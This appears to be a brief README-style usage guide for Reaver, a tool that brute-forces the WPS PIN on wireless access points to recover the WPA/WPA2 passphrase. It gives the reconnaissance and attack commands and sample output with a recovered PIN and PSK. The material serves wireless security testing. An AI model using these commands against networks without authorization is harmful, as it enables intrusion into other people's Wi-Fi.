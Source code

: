 # Reaver

Reaver is a WPA/WPA2 brute force attack tool developed by Tactical Network Solutions. It exploits a vulnerability in the WPS (Wi-Fi Protected Setup) protocol found in WPA/WPA2 wireless access points.

## Usage

```bash
reaver -i <interface> -b <access-point> -v
```

To obtain the interface and access point, use the following commands:

```bash
iwconfig
iwlist <interface> scan
```

`Address` is what we are going to use in the `-b` flag.

```bash
./reaver -i wlan0 -b 02:00:00:00:01:00 -v

Reaver v1.6.4 WiFi Protected Setup Attack Tool
Copyright (c) 2011, Tactical Network Solutions, Craig Heffner <cheffner@tacnetsol.com>

[+] Waiting for beacon from 02:00:00:00:01:00
[+] Received beacon from 02:00:00:00:01:00
[+] Trying pin "12345670"
[!] Found packet with bad FCS, skipping...
[+] Associated with 02:00:00:00:01:00 (ESSID: ID)
[+] WPS PIN: '12345670'
[+] WPA PSK: 'PASSWORD'
[+] AP SSID: 'ID'
```